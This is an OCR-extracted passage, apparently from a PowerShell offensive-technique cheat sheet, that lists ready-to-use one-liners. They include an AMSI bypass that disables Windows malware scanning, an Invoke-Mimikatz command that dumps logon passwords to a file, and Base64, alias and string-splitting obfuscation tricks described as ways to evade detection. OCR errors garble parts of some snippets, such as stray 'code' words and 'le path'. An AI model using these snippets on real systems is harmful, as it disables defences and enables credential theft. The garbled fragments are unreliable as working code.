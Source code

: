 Bypasses the Anti-Malware Scan Interface (AMSI) in PowerShell, allowing the execution of potentially malicious scripts without detection.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,S
tatic').SetValue($null,$true)
```

### Extracting System Secrets with Mimikatz
Uses Mimikatz to extract logon passwords and other sensitive data from system memory.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt
```

### String Obfuscation

Obfuscates a string (e.g., a command) using Base64 encoding to evade detection by security tools.

```powershell
$originalString = 'SensitiveCommand'; $obfuscatedString =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($originalString)); $decodedString =code code
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($obfuscatedString)); Invoke-code
Expression $decodedStringcode
```

### Command Aliasing

Creates an alias for a PowerShell command to disguise its true purpose, which can be useful in evading script analysis.

```powershell
$alias = 'Get-Dir'; Set-Alias -Name $alias -Value Get-ChildItem; Invoke-Expression $alias
```

### Variable Name Obfuscation

Obfuscates a command by splitting it into parts and reassembling it, making the command less recognizable to security tools.

```powershell
$o = 'Get'; $b = 'Process'; $cmd = $o + '-' + $b; Invoke-Expression $cmd
```

### File Path Obfuscation

Obfuscates a le path using Base64 encoding, making it harder to detect malicious le paths or commands.

```powershell
$path =
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('QzpcVGVtcFxBZG1pblRvb2xz'));
Invoke-Item $path
```
